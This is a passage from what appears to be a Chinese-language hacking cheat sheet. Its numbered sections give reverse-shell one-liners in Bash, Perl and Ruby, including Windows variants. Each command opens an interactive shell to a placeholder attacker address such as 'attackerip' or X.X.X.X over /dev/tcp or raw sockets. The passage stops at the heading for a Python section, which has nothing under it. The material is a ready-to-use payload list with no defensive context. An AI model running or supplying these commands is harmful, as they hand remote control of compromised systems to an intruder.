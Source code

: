 
### 47.BASH 反弹 Shell

> 
<pre>bash -i &gt;&amp; /dev/tcp/X.X.X.X/443 0&gt;&amp;1


exec /bin/bash 0&amp;0 2&gt;&amp;0
exec /bin/bash 0&amp;0 2&gt;&amp;0


0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/attackerip/4444; sh &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196


0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/attackerip/4444; sh &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196


exec 5&lt;&gt;/dev/tcp/attackerip/4444 cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done # or: while read line 0&lt;&amp;5; do $line 2&gt;&amp;5 &gt;&amp;5; done
exec 5&lt;&gt;/dev/tcp/attackerip/4444


cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done # or:
while read line 0&lt;&amp;5; do $line 2&gt;&amp;5 &gt;&amp;5; done


/bin/bash -i &gt; /dev/tcp/attackerip/8080 0&lt;&amp;1 2&gt;&amp;1
/bin/bash -i &gt; /dev/tcp/X.X.X.X/443 0&lt;&amp;1</pre>


### 48.PERL 反弹 Shell

> 
<pre>perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN-&gt;fdopen($c,r);$~-&gt;fdopen($c,w);system$_ while&lt;&gt;;'


// Win 平台
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN-&gt;fdopen($c,r);$~-&gt;fdopen($c,w);system$_ while&lt;&gt;;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};’</pre>


### 49.RUBY 反弹 Shell

> 
<pre>ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'


// Win 平台
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i &lt;&amp;%d &gt;&amp;%d 2&gt;&amp;%d",f,f,f)'</pre>


### 50.PYTHON 反弹 Shell

